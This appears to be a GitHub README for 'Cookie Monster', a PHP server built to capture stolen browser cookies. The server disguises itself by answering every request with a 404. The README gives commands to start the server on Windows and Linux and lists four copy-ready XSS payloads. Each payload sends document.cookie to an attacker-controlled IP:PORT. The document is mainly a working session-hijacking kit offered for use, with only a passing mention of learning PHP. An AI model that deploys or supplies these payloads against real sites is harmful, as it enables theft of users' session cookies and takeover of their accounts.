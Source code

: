 # Cookie Monster 

## Description

Simple php self server for capturing cookies. (also to help learn some PHP)

Gives 404 on all requests to seem broken.  
Will log any request with either ```cm``` or ```cookie_monster``` as the parameter.

eg: 

```
http://IP:PORT/?cm=cookieToSteal
```

## Usage

Save the index.php file to a directory.
Open a shell in that directory. 
Start a PHP server

Windows 

```
C:\php\php.exe -S 0.0.0.0:3000
```

Linux

```
php -S 0.0.0.0:3000
```

Basic XSS Cookie stealer payloads

```
<script>var i = new Image();i.src="http://IP:PORT/cm="+document.cookie</script>
"><script>var i = new Image();i.src="http://IP:PORT/cm="+document.cookie</script>


<script>var i = new Image();i.src="http://IP:PORT/cookie_monster="+document.cookie</script>
"><script>var i = new Image();i.src="http://IP:PORT/cookie_monster="+document.cookie</script>
```



Screenshots.

Windows

![image](https://user-images.githubusercontent.com/5285547/132856213-6e5abeb2-94fe-43a6-b24f-149868a83ab7.png)

Linux

![image](https://user-images.githubusercontent.com/5285547/132856713-36b21833-549f-47f0-a76c-11742973f1c0.png)

